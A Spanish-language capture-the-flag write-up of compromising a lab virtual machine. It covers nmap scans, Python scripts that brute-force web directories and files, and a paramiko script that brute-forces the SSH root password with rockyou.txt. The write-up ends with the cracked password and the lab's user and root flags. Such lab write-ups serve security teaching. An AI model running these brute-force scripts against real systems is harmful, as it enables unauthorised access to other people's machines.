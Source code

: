 ## Buscamos puertos tcp activos.

>sudo nmap -sS -sV -O -p- 192.168.56.102 -oN >tcp                                                                                                               
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00075s latency).
>Not shown: 65533 closed tcp ports (reset)
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
>80/tcp open  http    nginx
>MAC Address: 08:00:2F (Oracle VirtualBox virtual NIC)
>Device type: general purpose
>Running: Linux 4.X|5.X
>OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
>OS details: Linux 4.15 - 5.6
>Network Distance: 1 hop


## Buscamos puertos Udp activos

>sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN >udp                                                                                  
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00067s latency).
>All 100 scanned ports on 192.168.56.102 are in ignored states.
>Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
>MAC Address: 08:00:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

## Usamos Curl...
curl -v http://192.168.56.

> Trying 192.168.56.102:80...
> Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
> Mark bundle as not supporting multiuse
>< HTTP/1.1 200 OK
>< Server: nginx
>< Date: Mon, 05 Dec 2022 20:30:15 GMT
>< Content-Type: text/html
>< Content-Length: 57
>< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
>< Connection: keep-alive
>< ETag: "5f-39"
>< Accept-Ranges: bytes
>< 

>Dont Overthink. Really, Its simple.
>        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

## Buscamos directorios mediante fuerza bruta con Python y requests.

```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
```python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
```
### Salida:
.
.
.
.
* [-] root: fernanda
* [-] root: westlife
* [-] root: blondie
* [-] root: sasuke
* [-] root: smiley
* [-] root: jackson
* [+] root: simple

## El password es 'simple' para el usuario 'root'

>id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
>Flag user:HMV665sXzDS
>Flag root:HMVtyr543FG
